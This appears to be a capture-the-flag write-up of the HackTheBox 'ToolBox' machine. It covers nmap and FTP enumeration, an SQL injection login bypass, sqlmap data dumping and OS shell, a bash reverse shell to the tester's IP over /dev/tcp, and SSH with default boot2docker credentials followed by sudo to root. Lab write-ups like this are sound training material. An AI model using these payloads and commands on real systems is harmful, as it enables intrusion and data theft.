 ```yaml
---
title: "HackTheBox - ToolBox"
author: Nasrallah
description: ""
date: 2023-04-17 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, docker, sqli]
img_path: /assets/img/hackthebox/machines/toolbox
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Toolbox](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

![](0.png)

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.236                                                                                                                             
Host is up (0.30s latency).                                                                                                                                   
Not shown: 994 closed tcp ports (reset)                                                                                                                       
PORT    STATE SERVICE       VERSION                                                                                                                           
21/tcp  open  ftp           FileZilla ftpd                                                                                                                    
| ftp-syst:                                                                                                                                                   
|_  SYST: UNIX emulated by FileZilla                                                                                                                          
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
22/tcp  open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b1aa18199eaf79602192e6e97045a3f (RSA)
|   256 a24b5ac70ff399a13aca7d542876b2dd (ECDSA)
|_  256 ea08966023e2f44f8d05b31841352339 (ED25519)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp open  ssl/http      Apache httpd 2.4.38 ((Debian))
|_ssl-date: TLS randomness does not represent time
|_http-title: MegaLogistics
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
| Not valid before: 2020-02-18T17:45:56 
|_Not valid after:  2021-02-17T17:45:56 
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.38 (Debian)
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2023-04-09T10:46:21
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```

We have FTP with anonymous login allowed, ssh on port 22, SMB on port (135,139,445) and Apache https web server and it says it's `Debian`, this means it's running on a docker container.

## FTP

Let's login and see what's there.

```terminal
 $ ftp 10.10.10.236                                                                                                                                 130 ⨯ 
Connected to 10.10.10.236.                                                                                                                                    
220-FileZilla Server 0.9.60 beta                                                                                                                              
220-written by Tim Kosse (tim.kosse@filezilla-project.org)                                                                                                    
220 Please visit https://filezilla-project.org/                                                                                                               
Name (10.10.10.236:sirius): anonymous                                                                                                                         
331 Password required for anonymous                                                                                                                           
Password:                                                                                                                                                     
230 Logged on                                                                                                                                                 
Remote system type is UNIX.                                                                                                                                   
ftp> ls                                                                                                                                                       
200 Port command successful                                                                                                                                   
150 Opening data channel for directory listing of "/"                                                                                                         
-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe                                                                                           
226 Successfully transferred "/"                                                                                                                              
ftp> exit                                                                                                                                                     
221 Goodbye                            
```

We found one file which is `docker-toolbox.exe`.

Docker-Toolbox allows to deploy containers in windows before windows has support for Docker.

Let's move on.

## SMB

Let's list available shares.

```terminal
$ smbclient -L 10.10.10.236 -N                                                                                                                           
session setup failed: NT_STATUS_ACCESS_DENIED           
```

Couldn't do that, we get access denied.

## Web

Before going to the web page, nmap scripts had showed us the domain `admin.megalogistic.com`, so let's add that to /etc/hosts along with `megalogistic.com`.

![](1.png)

Nothing interesting is this page, and everything is static pages.

Let's go the admin subdomain.

![](2.png)

We got a login page, i tried some default credentials and failed, but managed to login via sql injection with the payload `' or 1=1 --`.

![](3.png)

Since the page is vulnerable to sqli, let's throw is to `sqlmap` and see what we can get back.

```bash
sqlmap -u 'https://admin.megalogistic.com/' --forms --batch --dump
```

![](4.png)

Managed to retrieve the admin hash, but couldn't crack it.

# **Foothold**

Let's use `--os-shell` option is `sqlmap` to get a shell and execute commands on the target.

![](5.png)

With that i put this reverse shell `sh -i >& /dev/tcp/10.10.17.90/9001 0>&1` in a file and executed the file to get a reverse shell.

![](6.png)


# **Privilege Escalation**

Running `ifconfig` shows our ip `172.17.0.2`

```terminal
www-data@bc56e3cc55e9:/tmp$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 844587  bytes 100413105 (95.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 553291  bytes 572398666 (545.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Running `uname -a` we get the following result

```terminal
Linux bc56e3cc55e9 4.14.154-boot2docker #1 SMP Thu Nov 14 19:19:08 UTC 2019 x86_64 GNU/Linux
```

The first thing we notice is the hostname which indicate we're in a docker container and the linux distribution is called `boot2docker`

Searching for `boot2docker exploit` i found this [article](https://rioasmara.com/2021/08/08/privilege-escalation-boot2docker/) that shows default credentials for the host of this container.

Let's use the credentials `docker:tcuser` to ssh to the host at `172.17.0.1`

```terminal
postgres@bc56e3cc55e9:/$ ssh docker@172.17.0.1                                                                                                                
docker@172.17.0.1's password:                                                                                                                                                                                                                                                            
   ( '>')                                                                                                                                                     
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.                                                                                                 
 (/-_--_-\)           www.tinycorelinux.net                                                                                                                   
                                                                                                                                                              
docker@box:~$ whoami                                                                                                                                          
docker                                                                                                                                                        
docker@box:~$ id                                                                
uid=1000(docker) gid=50(staff) groups=50(staff),100(docker)

```

If we check our privileges we see that we can run anything as root.

```terminal
docker@box:~$ sudo -l                                                           
User docker may run the following commands on this host:
    (root) NOPASSWD: ALL
```

Let's get a root shell with `sudo su`.

The root directory is empty so i searched for the root flag and found it's place.

```terminal
root@box:~# find / -type f -name root.txt 2>/dev/null                           
/c/Users/Administrator/Desktop/root.txt 
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).